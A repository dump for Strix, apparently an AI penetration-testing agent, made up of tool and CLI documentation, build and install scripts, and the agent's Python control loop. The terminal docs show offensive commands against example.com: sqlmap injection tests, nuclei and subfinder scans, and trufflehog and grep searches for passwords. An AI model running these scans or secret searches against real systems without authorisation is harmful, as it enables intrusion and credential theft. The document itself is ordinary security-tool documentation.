| [Bandit](https://bandit.readthedocs.io)                     | Python security linter                |

## Authentication Testing

| Tool                                                         | Description                        |
| ------------------------------------------------------------ | ---------------------------------- |
| [jwt_tool](https://github.com/ticarpi/jwt_tool)              | JWT token testing and exploitation |
| [Interactsh](https://github.com/projectdiscovery/interactsh) | Out-of-band interaction detection  |

## Container & Supply Chain

| Tool                       | Description                                    |
| -------------------------- | ---------------------------------------------- |
| [Trivy](https://trivy.dev) | Container and dependency vulnerability scanner |

## HTTP Proxy

| Tool                      | Description                                   |
| ------------------------- | --------------------------------------------- |
| [Caido](https://caido.io) | Modern HTTP proxy for interception and replay |

## Browser

| Tool                                 | Description                 |
| ------------------------------------ | --------------------------- |
| [Playwright](https://playwright.dev) | Headless browser automation |

<Note>
  All tools are pre-configured and ready to use. The agent selects the appropriate tool based on the vulnerability being tested.
</Note>
```

## File: `docs/tools/terminal.mdx`
```
---
title: "Terminal"
description: "Bash shell for running commands and security tools"
---

Strix has access to a persistent bash terminal running inside the Docker sandbox. This gives the agent access to all [pre-installed security tools](/tools/sandbox).

## Capabilities

| Feature           | Description                                                |
| ----------------- | ---------------------------------------------------------- |
| Persistent state  | Working directory and environment persist between commands |
| Multiple sessions | Run parallel terminals for concurrent operations           |
| Background jobs   | Start long-running processes without blocking              |
| Interactive       | Respond to prompts and control running processes           |

## Common Uses

### Running Security Tools

```bash
# Subdomain enumeration
subfinder -d example.com

# Vulnerability scanning
nuclei -u https://example.com

# SQL injection testing
sqlmap -u "https://example.com/page?id=1"
```

### Code Analysis

```bash
# Search for secrets
trufflehog filesystem ./

# Static analysis
semgrep --config auto ./src

# Grep for patterns
grep -r "password" ./
```

### Custom Scripts

```bash
# Run Python exploits
python3 exploit.py

# Execute shell scripts
./test_auth_bypass.sh
```

## Session Management

The agent can run multiple terminal sessions concurrently, for example:

- Main session for primary testing
- Secondary session for monitoring
- Background processes for servers or watchers
```

## File: `docs/usage/cli.mdx`
```
---
title: "CLI Reference"
description: "Command-line options for Strix"
---

## Basic Usage

```bash
strix --target <target> [options]
```

## Options

<ParamField path="--target, -t" type="string" required>
  Target to test. Accepts URLs, repositories, local directories, domains, or IP addresses. Can be specified multiple times.
</ParamField>

<ParamField path="--instruction" type="string">
  Custom instructions for the scan. Use for credentials, focus areas, or specific testing approaches.
</ParamField>

<ParamField path="--instruction-file" type="string">
  Path to a file containing detailed instructions.
</ParamField>

<ParamField path="--scan-mode, -m" type="string" default="deep">
  Scan depth: `quick`, `standard`, or `deep`.
</ParamField>

<ParamField path="--non-interactive, -n" type="boolean">
  Run in headless mode without TUI. Ideal for CI/CD.
</ParamField>

<ParamField path="--config" type="string">
  Path to a custom config file (JSON) to use instead of `~/.strix/cli-config.json`.
</ParamField>

## Examples

```bash
# Basic scan
strix --target https://example.com

# Authenticated testing
strix --target https://app.com --instruction "Use credentials: user:pass"

# Focused testing
strix --target api.example.com --instruction "Focus on IDOR and auth bypass"

# CI/CD mode
strix -n --target ./ --scan-mode quick

# Multi-target white-box testing
strix -t https://github.com/org/app -t https://staging.example.com
```

## Exit Codes

| Code | Meaning |
|------|---------|
| 0 | Scan completed, no vulnerabilities found |
| 2 | Vulnerabilities found (headless mode only) |
```

## File: `docs/usage/instructions.mdx`
```
---
title: "Custom Instructions"
description: "Guide Strix with custom testing instructions"
---

Use instructions to provide context, credentials, or focus areas for your scan.

## Inline Instructions

```bash
strix --target https://app.com --instruction "Focus on authentication vulnerabilities"
```

## File-Based Instructions

For complex instructions, use a file:

```bash
strix --target https://app.com --instruction-file ./pentest-instructions.md
```

## Common Use Cases

### Authenticated Testing

```bash
strix --target https://app.com \
  --instruction "Login with email: test@example.com, password: TestPass123"
```

### Focused Scope

```bash
strix --target https://api.example.com \
  --instruction "Focus on IDOR vulnerabilities in the /api/users endpoints"
```

### Exclusions

```bash
strix --target https://app.com \
  --instruction "Do not test /admin or /internal endpoints"
```

### API Testing

```bash
strix --target https://api.example.com \
  --instruction "Use API key header: X-API-Key: abc123. Focus on rate limiting bypass."
```

## Instruction File Example

```markdown instructions.md
# Penetration Test Instructions

## Credentials
- Admin: admin@example.com / AdminPass123
- User: user@example.com / UserPass123

## Focus Areas
1. IDOR in user profile endpoints
2. Privilege escalation between roles
3. JWT token manipulation

## Out of Scope
- /health endpoints
- Third-party integrations
```

<Tip>
Be specific. Good instructions help Strix prioritize the most valuable attack paths.
</Tip>
```

## File: `docs/usage/scan-modes.mdx`
```
---
title: "Scan Modes"
description: "Choose the right scan depth for your use case"
---

Strix offers three scan modes to balance speed and thoroughness.

## Quick

```bash
strix --target ./app --scan-mode quick
```

Fast checks for obvious vulnerabilities. Best for:
- CI/CD pipelines
- Pull request validation
- Rapid smoke tests

**Duration**: Minutes

## Standard

```bash
strix --target ./app --scan-mode standard
```

Balanced testing for routine security reviews. Best for:
- Regular security assessments
- Pre-release validation
- Development milestones

**Duration**: 30 minutes to 1 hour

## Deep

```bash
strix --target ./app --scan-mode deep
```

Thorough penetration testing. Best for:
- Comprehensive security audits
- Pre-production reviews
- Critical application assessments

**Duration**: 1-4 hours depending on target complexity

<Note>
Deep mode is the default. It explores edge cases, chained vulnerabilities, and complex attack paths.
</Note>

## Choosing a Mode

| Scenario | Recommended Mode |
|----------|------------------|
| Every PR | Quick |
| Weekly scans | Standard |
| Before major release | Deep |
| Bug bounty hunting | Deep |
```

## File: `scripts/build.sh`
```bash
#!/bin/bash
set -e

SCRIPT_DIR="$(cd "$(dirname "${BASH_SOURCE[0]}")" && pwd)"
PROJECT_ROOT="$(cd "$SCRIPT_DIR/.." && pwd)"

RED='\033[0;31m'
GREEN='\033[0;32m'
YELLOW='\033[1;33m'
BLUE='\033[0;34m'
NC='\033[0m' # No Color

echo -e "${BLUE}🦉 Strix Build Script${NC}"
echo "================================"

OS="$(uname -s)"
ARCH="$(uname -m)"

case "$OS" in
    Linux*)     OS_NAME="linux";;
    Darwin*)    OS_NAME="macos";;
    MINGW*|MSYS*|CYGWIN*) OS_NAME="windows";;
    *)          OS_NAME="unknown";;
esac

case "$ARCH" in
    x86_64|amd64)   ARCH_NAME="x86_64";;
    arm64|aarch64)  ARCH_NAME="arm64";;
    *)              ARCH_NAME="$ARCH";;
esac

echo -e "${YELLOW}Platform:${NC} $OS_NAME-$ARCH_NAME"

cd "$PROJECT_ROOT"

if ! command -v poetry &> /dev/null; then
    echo -e "${RED}Error: Poetry is not installed${NC}"
    echo "Please install Poetry first: https://python-poetry.org/docs/#installation"
    exit 1
fi

echo -e "\n${BLUE}Installing dependencies...${NC}"
poetry install --with dev

VERSION=$(poetry version -s)
echo -e "${YELLOW}Version:${NC} $VERSION"

echo -e "\n${BLUE}Cleaning previous builds...${NC}"
rm -rf build/ dist/

echo -e "\n${BLUE}Building binary with PyInstaller...${NC}"
poetry run pyinstaller strix.spec --noconfirm

RELEASE_DIR="dist/release"
mkdir -p "$RELEASE_DIR"

BINARY_NAME="strix-${VERSION}-${OS_NAME}-${ARCH_NAME}"

if [ "$OS_NAME" = "windows" ]; then
    if [ ! -f "dist/strix.exe" ]; then
        echo -e "${RED}Build failed: Binary not found${NC}"
        exit 1
    fi
    BINARY_NAME="${BINARY_NAME}.exe"
    cp "dist/strix.exe" "$RELEASE_DIR/$BINARY_NAME"
    echo -e "\n${BLUE}Creating zip...${NC}"
    ARCHIVE_NAME="${BINARY_NAME%.exe}.zip"

    if command -v 7z &> /dev/null; then
        7z a "$RELEASE_DIR/$ARCHIVE_NAME" "$RELEASE_DIR/$BINARY_NAME"
    else
        powershell -Command "Compress-Archive -Path '$RELEASE_DIR/$BINARY_NAME' -DestinationPath '$RELEASE_DIR/$ARCHIVE_NAME'"
    fi
    echo -e "${GREEN}Created:${NC} $RELEASE_DIR/$ARCHIVE_NAME"
else
    if [ ! -f "dist/strix" ]; then
        echo -e "${RED}Build failed: Binary not found${NC}"
        exit 1
    fi
    cp "dist/strix" "$RELEASE_DIR/$BINARY_NAME"
    chmod +x "$RELEASE_DIR/$BINARY_NAME"
    echo -e "\n${BLUE}Creating tarball...${NC}"
    ARCHIVE_NAME="${BINARY_NAME}.tar.gz"
    tar -czvf "$RELEASE_DIR/$ARCHIVE_NAME" -C "$RELEASE_DIR" "$BINARY_NAME"
    echo -e "${GREEN}Created:${NC} $RELEASE_DIR/$ARCHIVE_NAME"
fi

echo -e "\n${GREEN}Build successful!${NC}"
echo "================================"
echo -e "${YELLOW}Binary:${NC} $RELEASE_DIR/$BINARY_NAME"

SIZE=$(ls -lh "$RELEASE_DIR/$BINARY_NAME" | awk '{print $5}')
echo -e "${YELLOW}Size:${NC} $SIZE"

echo -e "\n${BLUE}Testing binary...${NC}"
"$RELEASE_DIR/$BINARY_NAME" --help > /dev/null 2>&1 && echo -e "${GREEN}Binary test passed!${NC}" || echo -e "${RED}Binary test failed${NC}"

echo -e "\n${GREEN}Done!${NC}"
```

## File: `scripts/install.sh`
```bash
#!/usr/bin/env bash

set -euo pipefail

APP=strix
REPO="usestrix/strix"
STRIX_IMAGE="ghcr.io/usestrix/strix-sandbox:0.1.12"

MUTED='\033[0;2m'
RED='\033[0;31m'
GREEN='\033[0;32m'
YELLOW='\033[1;33m'
CYAN='\033[0;36m'
NC='\033[0m'

requested_version=${VERSION:-}
SKIP_DOWNLOAD=false

raw_os=$(uname -s)
os=$(echo "$raw_os" | tr '[:upper:]' '[:lower:]')
case "$raw_os" in
  Darwin*) os="macos" ;;
  Linux*) os="linux" ;;
  MINGW*|MSYS*|CYGWIN*) os="windows" ;;
esac

arch=$(uname -m)
if [[ "$arch" == "aarch64" ]]; then
  arch="arm64"
fi
if [[ "$arch" == "x86_64" ]]; then
  arch="x86_64"
fi

if [ "$os" = "macos" ] && [ "$arch" = "x86_64" ]; then
  rosetta_flag=$(sysctl -n sysctl.proc_translated 2>/dev/null || echo 0)
  if [ "$rosetta_flag" = "1" ]; then
    arch="arm64"
  fi
fi

combo="$os-$arch"
case "$combo" in
  linux-x86_64|macos-x86_64|macos-arm64|windows-x86_64)
    ;;
  *)
    echo -e "${RED}Unsupported OS/Arch: $os/$arch${NC}"
    exit 1
    ;;
esac

archive_ext=".tar.gz"
if [ "$os" = "windows" ]; then
  archive_ext=".zip"
fi

target="$os-$arch"

if [ "$os" = "linux" ]; then
    if ! command -v tar >/dev/null 2>&1; then
         echo -e "${RED}Error: 'tar' is required but not installed.${NC}"
         exit 1
    fi
fi

if [ "$os" = "windows" ]; then
    if ! command -v unzip >/dev/null 2>&1; then
        echo -e "${RED}Error: 'unzip' is required but not installed.${NC}"
        exit 1
    fi
fi

INSTALL_DIR=$HOME/.strix/bin
mkdir -p "$INSTALL_DIR"

if [ -z "$requested_version" ]; then
    specific_version=$(curl -s "https://api.github.com/repos/$REPO/releases/latest" | sed -n 's/.*"tag_name": *"v\([^"]*\)".*/\1/p')
    if [[ $? -ne 0 || -z "$specific_version" ]]; then
        echo -e "${RED}Failed to fetch version information${NC}"
        exit 1
    fi
else
    specific_version=$requested_version
fi

filename="$APP-${specific_version}-${target}${archive_ext}"
url="https://github.com/$REPO/releases/download/v${specific_version}/$filename"

print_message() {
    local level=$1
    local message=$2
    local color=""
    case $level in
        info) color="${NC}" ;;
        success) color="${GREEN}" ;;
        warning) color="${YELLOW}" ;;
        error) color="${RED}" ;;
    esac
    echo -e "${color}${message}${NC}"
}

check_existing_installation() {
    local found_paths=()
    while IFS= read -r -d '' path; do
        found_paths+=("$path")
    done < <(which -a strix 2>/dev/null | tr '\n' '\0' || true)

    if [ ${#found_paths[@]} -gt 0 ]; then
        for path in "${found_paths[@]}"; do
            if [[ ! -e "$path" ]] || [[ "$path" == "$INSTALL_DIR/strix"* ]]; then
                continue
            fi

            if [[ -n "$path" ]]; then
                echo -e "${MUTED}Found existing strix at: ${NC}$path"

                if [[ "$path" == *".local/bin"* ]]; then
                    echo -e "${MUTED}Removing old pipx installation...${NC}"
                    if command -v pipx >/dev/null 2>&1; then
                        pipx uninstall strix-agent 2>/dev/null || true
                    fi
                    rm -f "$path" 2>/dev/null || true
                elif [[ -L "$path" || -f "$path" ]]; then
                    echo -e "${MUTED}Removing old installation...${NC}"
                    rm -f "$path" 2>/dev/null || true
                fi
            fi
        done
    fi
}

check_version() {
    check_existing_installation

    if [[ -x "$INSTALL_DIR/strix" ]]; then
        installed_version=$("$INSTALL_DIR/strix" --version 2>/dev/null | awk '{print $2}' || echo "")
        if [[ "$installed_version" == "$specific_version" ]]; then
            print_message info "${GREEN}✓ Strix ${NC}$specific_version${GREEN} already installed${NC}"
            SKIP_DOWNLOAD=true
        elif [[ -n "$installed_version" ]]; then
            print_message info "${MUTED}Installed: ${NC}$installed_version ${MUTED}→ Upgrading to ${NC}$specific_version"
        fi
    fi
}

download_and_install() {
    print_message info "\n${CYAN}🦉 Installing Strix${NC} ${MUTED}version: ${NC}$specific_version"
    print_message info "${MUTED}Platform: ${NC}$target\n"

    local tmp_dir=$(mktemp -d)
    cd "$tmp_dir"

    echo -e "${MUTED}Downloading...${NC}"
    curl -# -L -o "$filename" "$url"

    if [ ! -f "$filename" ]; then
        echo -e "${RED}Download failed${NC}"
        exit 1
    fi

    echo -e "${MUTED}Extracting...${NC}"
    if [ "$os" = "windows" ]; then
        unzip -q "$filename"
        mv "strix-${specific_version}-${target}.exe" "$INSTALL_DIR/strix.exe"
    else
        tar -xzf "$filename"
        mv "strix-${specific_version}-${target}" "$INSTALL_DIR/strix"
        chmod 755 "$INSTALL_DIR/strix"
    fi

    cd - > /dev/null
    rm -rf "$tmp_dir"

    echo -e "${GREEN}✓ Strix installed to $INSTALL_DIR${NC}"
}

check_docker() {
    echo ""
    if ! command -v docker >/dev/null 2>&1; then
        echo -e "${YELLOW}⚠ Docker not found${NC}"
        echo -e "${MUTED}Strix requires Docker to run the security sandbox.${NC}"
        echo -e "${MUTED}Please install Docker: ${NC}https://docs.docker.com/get-docker/"
        echo ""
        return 1
    fi

    if ! docker info >/dev/null 2>&1; then
        echo -e "${YELLOW}⚠ Docker daemon not running${NC}"
        echo -e "${MUTED}Please start Docker and run: ${NC}docker pull $STRIX_IMAGE"
        echo ""
        return 1
    fi

    echo -e "${MUTED}Checking for sandbox image...${NC}"
    if docker image inspect "$STRIX_IMAGE" >/dev/null 2>&1; then
        echo -e "${GREEN}✓ Sandbox image already available${NC}"
    else
        echo -e "${MUTED}Pulling sandbox image (this may take a few minutes)...${NC}"
        if docker pull "$STRIX_IMAGE"; then
            echo -e "${GREEN}✓ Sandbox image pulled successfully${NC}"
        else
            echo -e "${YELLOW}⚠ Failed to pull sandbox image${NC}"
            echo -e "${MUTED}You can pull it manually later: ${NC}docker pull $STRIX_IMAGE"
        fi
    fi
    return 0
}

add_to_path() {
    local config_file=$1
    local command=$2

    if grep -Fxq "$command" "$config_file" 2>/dev/null; then
        print_message info "${MUTED}PATH already configured in ${NC}$config_file"
    elif [[ -w $config_file ]]; then
        echo -e "\n# strix" >> "$config_file"
        echo "$command" >> "$config_file"
        print_message info "${MUTED}Successfully added ${NC}strix ${MUTED}to \$PATH in ${NC}$config_file"
    else
        print_message warning "Manually add the directory to $config_file (or similar):"
        print_message info "  $command"
    fi
}

setup_path() {
    XDG_CONFIG_HOME=${XDG_CONFIG_HOME:-$HOME/.config}
    current_shell=$(basename "$SHELL")

    case $current_shell in
        fish)
            config_files="$HOME/.config/fish/config.fish"
            ;;
        zsh)
            config_files="${ZDOTDIR:-$HOME}/.zshrc ${ZDOTDIR:-$HOME}/.zshenv $XDG_CONFIG_HOME/zsh/.zshrc $XDG_CONFIG_HOME/zsh/.zshenv"
            ;;
        bash)
            config_files="$HOME/.bashrc $HOME/.bash_profile $HOME/.profile $XDG_CONFIG_HOME/bash/.bashrc $XDG_CONFIG_HOME/bash/.bash_profile"
            ;;
        ash)
            config_files="$HOME/.ashrc $HOME/.profile /etc/profile"
            ;;
        sh)
            config_files="$HOME/.ashrc $HOME/.profile /etc/profile"
            ;;
        *)
            config_files="$HOME/.bashrc $HOME/.bash_profile $XDG_CONFIG_HOME/bash/.bashrc $XDG_CONFIG_HOME/bash/.bash_profile"
            ;;
    esac

    config_file=""
    for file in $config_files; do
        if [[ -f $file ]]; then
            config_file=$file
            break
        fi
    done

    if [[ -z $config_file ]]; then
        print_message warning "No config file found for $current_shell. You may need to manually add to PATH:"
        print_message info "  export PATH=$INSTALL_DIR:\$PATH"
    elif [[ ":$PATH:" != *":$INSTALL_DIR:"* ]]; then
        case $current_shell in
            fish)
                add_to_path "$config_file" "fish_add_path $INSTALL_DIR"
                ;;
            zsh)
                add_to_path "$config_file" "export PATH=$INSTALL_DIR:\$PATH"
                ;;
            bash)
                add_to_path "$config_file" "export PATH=$INSTALL_DIR:\$PATH"
                ;;
            ash)
                add_to_path "$config_file" "export PATH=$INSTALL_DIR:\$PATH"
                ;;
            sh)
                add_to_path "$config_file" "export PATH=$INSTALL_DIR:\$PATH"
                ;;
            *)
                export PATH=$INSTALL_DIR:$PATH
                print_message warning "Manually add the directory to $config_file (or similar):"
                print_message info "  export PATH=$INSTALL_DIR:\$PATH"
                ;;
        esac
    fi

    if [ -n "${GITHUB_ACTIONS-}" ] && [ "${GITHUB_ACTIONS}" == "true" ]; then
        echo "$INSTALL_DIR" >> "$GITHUB_PATH"
        print_message info "Added $INSTALL_DIR to \$GITHUB_PATH"
    fi
}

verify_installation() {
    export PATH="$INSTALL_DIR:$PATH"

    local which_strix=$(which strix 2>/dev/null || echo "")

    if [[ "$which_strix" != "$INSTALL_DIR/strix" && "$which_strix" != "$INSTALL_DIR/strix.exe" ]]; then
        if [[ -n "$which_strix" ]]; then
            echo -e "${YELLOW}⚠ Found conflicting strix at: ${NC}$which_strix"
            echo -e "${MUTED}Attempting to remove...${NC}"

            if rm -f "$which_strix" 2>/dev/null; then
                echo -e "${GREEN}✓ Removed conflicting installation${NC}"
            else
                echo -e "${YELLOW}Could not remove automatically.${NC}"
                echo -e "${MUTED}Please remove manually: ${NC}rm $which_strix"
            fi
        fi
    fi

    if [[ -x "$INSTALL_DIR/strix" ]]; then
        local version=$("$INSTALL_DIR/strix" --version 2>/dev/null | awk '{print $2}' || echo "unknown")
        echo -e "${GREEN}✓ Strix ${NC}$version${GREEN} ready${NC}"
    fi
}

check_version
if [ "$SKIP_DOWNLOAD" = false ]; then
    download_and_install
fi
setup_path
verify_installation
check_docker

echo ""
echo -e "${CYAN}"
echo "   ███████╗████████╗██████╗ ██╗██╗  ██╗"
echo "   ██╔════╝╚══██╔══╝██╔══██╗██║╚██╗██╔╝"
echo "   ███████╗   ██║   ██████╔╝██║ ╚███╔╝ "
echo "   ╚════██║   ██║   ██╔══██╗██║ ██╔██╗ "
echo "   ███████║   ██║   ██║  ██║██║██╔╝ ██╗"
echo "   ╚══════╝   ╚═╝   ╚═╝  ╚═╝╚═╝╚═╝  ╚═╝"
echo -e "${NC}"
echo -e "${MUTED}  AI Penetration Testing Agent${NC}"
echo ""
echo -e "${MUTED}To get started:${NC}"
echo ""
echo -e "  ${CYAN}1.${NC} Get your Strix API key:"
echo -e "     ${MUTED}https://models.strix.ai${NC}"
echo ""
echo -e "  ${CYAN}2.${NC} Set your environment:"
echo -e "     ${MUTED}export LLM_API_KEY='your-api-key'${NC}"
echo -e "     ${MUTED}export STRIX_LLM='strix/gpt-5'${NC}"
echo ""
echo -e "  ${CYAN}3.${NC} Run a penetration test:"
echo -e "     ${MUTED}strix --target https://example.com${NC}"
echo ""
echo -e "${MUTED}For more information visit ${NC}https://strix.ai"
echo -e "${MUTED}Supported models ${NC}https://docs.strix.ai/llm-providers/overview"
echo -e "${MUTED}Join our community ${NC}https://discord.gg/strix-ai"
echo ""

echo -e "${YELLOW}→${NC} Run ${MUTED}source ~/.$(basename $SHELL)rc${NC} or open a new terminal"
echo ""
```

## File: `strix/agents/base_agent.py`
```python
import asyncio
import contextlib
import logging
from typing import TYPE_CHECKING, Any, Optional


if TYPE_CHECKING:
    from strix.telemetry.tracer import Tracer

from jinja2 import (
    Environment,
    FileSystemLoader,
    select_autoescape,
)

from strix.llm import LLM, LLMConfig, LLMRequestFailedError
from strix.llm.utils import clean_content
from strix.runtime import SandboxInitializationError
from strix.tools import process_tool_invocations
from strix.utils.resource_paths import get_strix_resource_path

from .state import AgentState


logger = logging.getLogger(__name__)


class AgentMeta(type):
    agent_name: str
    jinja_env: Environment

    def __new__(cls, name: str, bases: tuple[type, ...], attrs: dict[str, Any]) -> type:
        new_cls = super().__new__(cls, name, bases, attrs)

        if name == "BaseAgent":
            return new_cls

        prompt_dir = get_strix_resource_path("agents", name)

        new_cls.agent_name = name
        new_cls.jinja_env = Environment(
            loader=FileSystemLoader(prompt_dir),
            autoescape=select_autoescape(enabled_extensions=(), default_for_string=False),
        )

        return new_cls


class BaseAgent(metaclass=AgentMeta):
    max_iterations = 300
    agent_name: str = ""
    jinja_env: Environment
    default_llm_config: LLMConfig | None = None

    def __init__(self, config: dict[str, Any]):
        self.config = config

        self.local_sources = config.get("local_sources", [])

        if "max_iterations" in config:
            self.max_iterations = config["max_iterations"]

        self.llm_config_name = config.get("llm_config_name", "default")
        self.llm_config = config.get("llm_config", self.default_llm_config)
        if self.llm_config is None:
            raise ValueError("llm_config is required but not provided")
        state_from_config = config.get("state")
        if state_from_config is not None:
            self.state = state_from_config
        else:
            self.state = AgentState(
                agent_name="Root Agent",
                max_iterations=self.max_iterations,
            )

        self.interactive = getattr(self.llm_config, "interactive", False)
        if self.interactive and self.state.parent_id is None:
            self.state.waiting_timeout = 0
        self.llm = LLM(self.llm_config, agent_name=self.agent_name)

        with contextlib.suppress(Exception):
            self.llm.set_agent_identity(self.state.agent_name, self.state.agent_id)
        self._current_task: asyncio.Task[Any] | None = None
        self._force_stop = False

        from strix.telemetry.tracer import get_global_tracer

        tracer = get_global_tracer()
        if tracer:
            tracer.log_agent_creation(
                agent_id=self.state.agent_id,
                name=self.state.agent_name,
                task=self.state.task,
                parent_id=self.state.parent_id,
            )
            if self.state.parent_id is None:
                scan_config = tracer.scan_config or {}
                exec_id = tracer.log_tool_execution_start(
                    agent_id=self.state.agent_id,
                    tool_name="scan_start_info",
                    args=scan_config,
                )
                tracer.update_tool_execution(execution_id=exec_id, status="completed", result={})

            else:
                exec_id = tracer.log_tool_execution_start(
                    agent_id=self.state.agent_id,
                    tool_name="subagent_start_info",
                    args={
                        "name": self.state.agent_name,
                        "task": self.state.task,
                        "parent_id": self.state.parent_id,
                    },
                )
                tracer.update_tool_execution(execution_id=exec_id, status="completed", result={})

        self._add_to_agents_graph()

    def _add_to_agents_graph(self) -> None:
        from strix.tools.agents_graph import agents_graph_actions

        node = {
            "id": self.state.agent_id,
            "name": self.state.agent_name,
            "task": self.state.task,
            "status": "running",
            "parent_id": self.state.parent_id,
            "created_at": self.state.start_time,
            "finished_at": None,
            "result": None,
            "llm_config": self.llm_config_name,
            "agent_type": self.__class__.__name__,
            "state": self.state.model_dump(),
        }
        agents_graph_actions._agent_graph["nodes"][self.state.agent_id] = node

        agents_graph_actions._agent_instances[self.state.agent_id] = self
        agents_graph_actions._agent_states[self.state.agent_id] = self.state

        if self.state.parent_id:
            agents_graph_actions._agent_graph["edges"].append(
                {"from": self.state.parent_id, "to": self.state.agent_id, "type": "delegation"}
            )

        if self.state.agent_id not in agents_graph_actions._agent_messages:
            agents_graph_actions._agent_messages[self.state.agent_id] = []

        if self.state.parent_id is None and agents_graph_actions._root_agent_id is None:
            agents_graph_actions._root_agent_id = self.state.agent_id

    async def agent_loop(self, task: str) -> dict[str, Any]:  # noqa: PLR0912, PLR0915
        from strix.telemetry.tracer import get_global_tracer

        tracer = get_global_tracer()

        try:
            await self._initialize_sandbox_and_state(task)
        except SandboxInitializationError as e:
            return self._handle_sandbox_error(e, tracer)

        while True:
            if self._force_stop:
                self._force_stop = False
                await self._enter_waiting_state(tracer, was_cancelled=True)
                continue

            self._check_agent_messages(self.state)

            if self.state.is_waiting_for_input():
                await self._wait_for_input()
                continue

            if self.state.should_stop():
                if not self.interactive:
                    return self.state.final_result or {}
                await self._enter_waiting_state(tracer)
                continue

            if self.state.llm_failed:
                await self._wait_for_input()
                continue

            self.state.increment_iteration()

            if (
                self.state.is_approaching_max_iterations()
                and not self.state.max_iterations_warning_sent
            ):
                self.state.max_iterations_warning_sent = True
                remaining = self.state.max_iterations - self.state.iteration
                warning_msg = (
                    f"URGENT: You are approaching the maximum iteration limit. "
                    f"Current: {self.state.iteration}/{self.state.max_iterations} "
                    f"({remaining} iterations remaining). "
                    f"Please prioritize completing your required task(s) and calling "
                    f"the appropriate finish tool (finish_scan for root agent, "
                    f"agent_finish for sub-agents) as soon as possible."
                )
                self.state.add_message("user", warning_msg)

            if self.state.iteration == self.state.max_iterations - 3:
                final_warning_msg = (
                    "CRITICAL: You have only 3 iterations left! "
                    "Your next message MUST be the tool call to the appropriate "
                    "finish tool: finish_scan if you are the root agent, or "
                    "agent_finish if you are a sub-agent. "
                    "No other actions should be taken except finishing your work "
                    "immediately."
                )
                self.state.add_message("user", final_warning_msg)

            try:
                iteration_task = asyncio.create_task(self._process_iteration(tracer))
                self._current_task = iteration_task
                should_finish = await iteration_task
                self._current_task = None

                if should_finish is None and self.interactive:
                    await self._enter_waiting_state(tracer, text_response=True)
                    continue

                if should_finish:
                    if not self.interactive:
                        self.state.set_completed({"success": True})
                        if tracer:
                            tracer.update_agent_status(self.state.agent_id, "completed")
                        return self.state.final_result or {}
                    await self._enter_waiting_state(tracer, task_completed=True)
                    continue

            except asyncio.CancelledError:
                self._current_task = None
                if tracer:
                    partial_content = tracer.finalize_streaming_as_interrupted(self.state.agent_id)
                    if partial_content and partial_content.strip():
                        self.state.add_message(
                            "assistant", f"{partial_content}\n\n[ABORTED BY USER]"
                        )
                if not self.interactive:
                    raise
                await self._enter_waiting_state(tracer, error_occurred=False, was_cancelled=True)
                continue

            except LLMRequestFailedError as e:
                result = self._handle_llm_error(e, tracer)
                if result is not None:
                    return result
                continue

            except (RuntimeError, ValueError, TypeError) as e:
                if not await self._handle_iteration_error(e, tracer):
                    if not self.interactive:
                        self.state.set_completed({"success": False, "error": str(e)})
                        if tracer:
                            tracer.update_agent_status(self.state.agent_id, "failed")
                        raise
                    await self._enter_waiting_state(tracer, error_occurred=True)
                    continue

    async def _wait_for_input(self) -> None:
        if self._force_stop:
            return

        if self.state.has_waiting_timeout():
            self.state.resume_from_waiting()
            self.state.add_message("user", "Waiting timeout reached. Resuming execution.")

            from strix.telemetry.tracer import get_global_tracer

            tracer = get_global_tracer()
            if tracer:
                tracer.update_agent_status(self.state.agent_id, "running")

            try:
                from strix.tools.agents_graph.agents_graph_actions import _agent_graph

                if self.state.agent_id in _agent_graph["nodes"]:
                    _agent_graph["nodes"][self.state.agent_id]["status"] = "running"
            except (ImportError, KeyError):
                pass

            return

        await asyncio.sleep(0.5)

    async def _enter_waiting_state(
        self,
        tracer: Optional["Tracer"],
        task_completed: bool = False,
        error_occurred: bool = False,
        was_cancelled: bool = False,
        text_response: bool = False,
    ) -> None:
        self.state.enter_waiting_state()

        if tracer:
            if text_response:
                tracer.update_agent_status(self.state.agent_id, "waiting_for_input")
            elif task_completed:
                tracer.update_agent_status(self.state.agent_id, "completed")
            elif error_occurred:
                tracer.update_agent_status(self.state.agent_id, "error")
            elif was_cancelled:
                tracer.update_agent_status(self.state.agent_id, "stopped")
            else:
                tracer.update_agent_status(self.state.agent_id, "stopped")

        if text_response:
            return

        if task_completed:
            self.state.add_message(
                "assistant",
                "Task completed. I'm now waiting for follow-up instructions or new tasks.",
            )
        elif error_occurred:
            self.state.add_message(
                "assistant", "An error occurred. I'm now waiting for new instructions."
            )
        elif was_cancelled:
            self.state.add_message(
                "assistant", "Execution was cancelled. I'm now waiting for new instructions."
            )
        else:
            self.state.add_message(
                "assistant",
                "Execution paused. I'm now waiting for new instructions or any updates.",
            )

    async def _initialize_sandbox_and_state(self, task: str) -> None:
        import os

        sandbox_mode = os.getenv("STRIX_SANDBOX_MODE", "false").lower() == "true"
        if not sandbox_mode and self.state.sandbox_id is None:
            from strix.runtime import get_runtime

            try:
                runtime = get_runtime()
                sandbox_info = await runtime.create_sandbox(
                    self.state.agent_id, self.state.sandbox_token, self.local_sources
                )
                self.state.sandbox_id = sandbox_info["workspace_id"]
                self.state.sandbox_token = sandbox_info["auth_token"]
                self.state.sandbox_info = sandbox_info

                if "agent_id" in sandbox_info:
                    self.state.sandbox_info["agent_id"] = sandbox_info["agent_id"]

                caido_port = sandbox_info.get("caido_port")
                if caido_port:
                    from strix.telemetry.tracer import get_global_tracer

                    tracer = get_global_tracer()
                    if tracer:
                        tracer.caido_url = f"localhost:{caido_port}"
            except Exception as e:
                from strix.telemetry import posthog

                posthog.error("sandbox_init_error", str(e))
                raise

        if not self.state.task:
            self.state.task = task

        self.state.add_message("user", task)

    async def _process_iteration(self, tracer: Optional["Tracer"]) -> bool | None:
        final_response = None

        async for response in self.llm.generate(self.state.get_conversation_history()):
            final_response = response
            if tracer and response.content:
                tracer.update_streaming_content(self.state.agent_id, response.content)

        if final_response is None:
            return False

        content_stripped = (final_response.content or "").strip()

        if not content_stripped:
            corrective_message = (
                "You MUST NOT respond with empty messages. "
                "If you currently have nothing to do or say, use an appropriate tool instead:\n"
                "- Use agents_graph_actions.wait_for_message to wait for messages "
                "from user or other agents\n"
                "- Use agents_graph_actions.agent_finish if you are a sub-agent "
                "and your task is complete\n"
                "- Use finish_actions.finish_scan if you are the root/main agent "
                "and the scan is complete"
            )
            self.state.add_message("user", corrective_message)
            return False

        thinking_blocks = getattr(final_response, "thinking_blocks", None)
        self.state.add_message("assistant", final_response.content, thinking_blocks=thinking_blocks)
        if tracer:
            tracer.clear_streaming_content(self.state.agent_id)
